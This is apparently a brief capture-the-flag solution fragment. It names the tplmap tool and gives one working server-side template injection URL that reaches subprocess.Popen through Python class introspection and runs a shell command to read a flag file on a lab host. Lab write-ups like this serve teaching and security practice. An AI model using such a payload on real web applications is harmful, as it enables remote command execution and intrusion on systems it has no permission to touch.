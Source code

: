 **Tool**: https://github.com/epinna/tplmap

**Manual solution**: `http://206.189.16.135:31968/{{[].__class__.__base__.__subclasses__()[414]('cat flag.txt', shell=True, stdout=-1).communicate()}}`
